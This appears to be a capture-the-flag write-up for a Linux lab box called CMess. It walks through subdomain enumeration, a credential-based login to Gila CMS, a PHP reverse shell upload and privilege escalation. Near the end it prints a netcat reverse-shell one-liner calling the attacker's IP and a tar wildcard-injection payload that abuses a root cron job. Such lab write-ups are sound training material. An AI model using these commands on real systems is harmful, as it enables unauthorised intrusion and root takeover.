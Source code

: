 ## CMess
### OS = LINUX
### DIFFICULTY = MEDIUM

#### nmap scan
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8bd8e60b-d4a1-44c0-b81b-258334a1a04a)

we have 2 open ports

let's start our enumeration from port 80

going over to the web page shows that it is running GILA cms

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/cf983be5-438e-4287-88dc-0ca136cafe3f)

so, let's add the domain "cmess.thm" to our /etc/hosts file

Then bruteforcing subdomains using ffuf gives this

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/f313a0bf-71c3-4343-83d5-c49bc8248bbc)

which shows that there is subdomain "dev.cmess.thm"

Also add the subdomain to the /etc/hosts file too

let's go over to the web we have some creds which you can see below
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/061713fc-1194-40d4-8d11-72ff242bccaa)

so, let's try the credential on the admin login page 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/ca8084ad-7b89-4c18-a839-6f3837e1fa08)

wow it works and we can see the GILA CMS version

so, moving on to the content page on the dashboard for us to upload a reverse shell script in the file manager

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/41f5c718-cab6-4e97-9f97-7916bf6123d2)
so we're able to upload a php reverse shell

And set ur ncat listener then visit the assets directory to load the uploaded shell

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e84cd810-3054-4a73-981c-fca53b24de0e)

it spawned us a shell on the target system

we have our sweet reverse shell. so, stabilize it
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c3f9e157-3537-45e9-a1d4-35b28bc19cc8)
 so, we can see our privilege is limited
 let's try escalating privilege

 <h2>Privilege escalation</h2>

   Uploading linpeas on the box 
  
   we found a password back up file at the /opt dir
  
   it contains the password for user "andre"
  
   ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e547fd57-3b7e-468b-bcbe-4d71204d83ca)

 so sshing into the server using the username and password

 we're able to read the user flag now

 ![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c95df228-8832-4e61-8115-9639ab8bdc81)

 Okay, so from this we know that there's a backup service running on the server, we can also see this from the linpeas report, and we also found the backed up file in the /tmp folder earlier when we were looking for user priv-esc. We can in fact see the exact command that is being run when the backup happens .
```  */2 * * * * root cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz * ```
 There's a way to exploit tar if it uses wildcards, there is more info on it in this article
 ![link](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) .

The name of the attack is Wildcard injection, and it's a way to make tar run an executable for us. Since the backup service is running as root, if we make this executable a reverse shell, then we got ourselves a root shell. 
set your netcat listener.

```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f" > shell.sh```

```2. echo ""> "--checkpoint-action=exec=sh shell.sh"```

```3. echo ""> --checkpoint=1```
   
And we are root lol ;)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a012c48a-9f56-4d95-ad31-b57caef3835b)

Thanks hope you had fun!


 For any enquiries shoot me a dm on twitter @  
 ![link](https://twitter.co/0x_venus)










